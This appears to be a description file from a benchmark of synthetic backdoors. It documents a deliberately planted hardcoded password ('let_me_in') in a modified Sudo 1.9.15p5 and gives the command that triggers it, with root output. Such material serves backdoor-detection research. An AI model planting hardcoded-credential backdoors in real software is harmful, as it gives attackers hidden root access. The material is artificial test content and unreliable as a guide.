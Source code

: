 # Sudo 1.9.15p5 backdoor
**Type**: hardcoded credentials
**Affected versions**: none (synthetic backdoor)

## Backdoor
The secret password `"let_me_in"` bypasses authentication and allows the command passed to Sudo to
be executed.

## Triggering the backdoor
In order to trigger the backdoor, you need to run Sudo with two flags (and any command, e.g.,
`id`):
- `--stdin`, to force Sudo to read a password from the standard input
- `--reset-timestamp`, to avoid "false-positive authentication" because of authentication caching
```
$ echo let_me_in | ./backdoored/build/bin/sudo --stdin --reset-timestamp -- id
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

For security reasons, the password you type will not be visible.

Password: uid=0(root) gid=0(root) groups=0(root)
```

